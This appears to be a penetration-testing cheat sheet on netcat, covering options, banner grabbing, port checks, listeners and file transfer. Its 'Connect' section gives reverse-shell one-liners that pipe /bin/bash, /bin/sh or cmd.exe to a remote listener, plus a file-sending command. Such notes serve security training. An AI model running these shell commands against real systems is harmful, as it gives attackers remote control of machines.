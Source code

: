 # netcat (nc)
> Netcat (the "TCP/IP Swiss Army Knife") is a networking utility used to read and write data to network connections using TCP or UDP.

## Contents
- [Intro](#intro)
  - [Remote Access Tool](#remote-access-tool)
  - [Two Modes](#two-modes)
  - [Options](#options)
- [Connecting to Ports (client mode)](#connecting-to-ports-client-mode)
  - [Standard Syntax](#standard-syntax)
  - [Additional Information](#additional-information)
  - [Manually Check Ports](#manually-check-ports)
- [Listener](#listener)
- [Connect](#connect)
  - [Connect to listener from Linux](#connect-to-the-listener-from-a-linux-target-machine)
  - [Connect to listener from Windows](#connect-to-the-listener-from-a-windows-target-machine)
- [File Input/Output](#file-inputoutput)

## Intro

### Remote Access Tool
- NetCat is a popular remote access tool.
- It has a small footprint so it's portable. It can set up a reverse shell easily.
  - In Kali the Windows executable is found here: `/usr/share/windows-binaries/nc.exe`
- Netcat can be used by penetration testers to perform the following functionality:
  - Banner Grabbing
  - Port Scanning
  - Tranferring Files
  - Bind/Reverse Shells
- Resources: [Simple How-To](https://jeffreytse.net/computer/2020/10/14/how-to-use-netcat-command.html) | [Basic Usage](https://www.geeksforgeeks.org/netcat-basic-usage-and-overview/)

### Two Modes
- Netcat utilizes a client-server communication architecture with two modes:
  - **Client [Connect] Mode:** Netcat can be used in a client mode to connect to any TCP/UDP port; it can also be used to connect to a remote listener (a remote Netcat server).
  - **Server [LIsten] Mode:** Netcat can be used to listen for connections from clients on a specific port.

### Options
- Some options to be aware of...
- `-v  --verbose` : set verbosity levels (`-v` is lower level, `-vv` is more, `-vvv`, etc.)
- `-u  --udp` : use UDP instead of the default TCP
- `-l  --listen` : bind (to a specified port) and listen for incoming connections
- `-n  --nodns` : do not resolve hostnames via DNS
- `-p  --source-port <port#>` : specify the source port to use
- `-e  --exec <command>` : executes the given command 

## Connecting to Ports (client mode)

### Standard Syntax
```
nc [target ip] [target port]  
nc 10.4.20.244 80              # example
```
- Netcat allows you to connect to a specific TCP or UDP port.
- This can allows you to do banner grabbing and things of that nature (once you connect, the target may give you a service banner with helpful information).

### Additional Information
- If your initial connection (like the above) results in nothing (no service banner), then you need to add some options.
```
nc -nv 10.4.20.244 80      # this will give you a little bit more information (e.g., confirmation of the connection).
nc -nvu 10.4.20.244 139    # check UDP
```

### Manually Check Ports
- Nmap will find open ports, and a service version scan will most often provide detailed information about what services (and their versions) are running on those open ports.
- This is not, however, the case all the time. 
- Whenever you see a question mark next to an nmap result, that means nmap is give you a best guess.
- You should always check these items **_manually_** with Netcat.

## Listener
- Set up the listener on your attack machine:
```
nc -nvlp 1234     # TCP listener
nc -nvlup 1234    # UDP listener
```

## Connect

### Connect to the listener from a Linux target machine
```
nc [listener IP] [port] –e /bin/bash
nc [listener IP] [port] –e /bin/sh
```

### Connect to the listener from a Windows target machine
```
nc.exe [listener IP] [port] –e cmd.exe
```

## File Input/Output

Send output from a listener to a text file:
```
nc -nvlp [port number] > filename.txt
```

Send output from a text file to a remote machine (this can be used to transfer any type of file: text, binary, etc.):
```
nc [IP Address] [port] < filename.txt
```
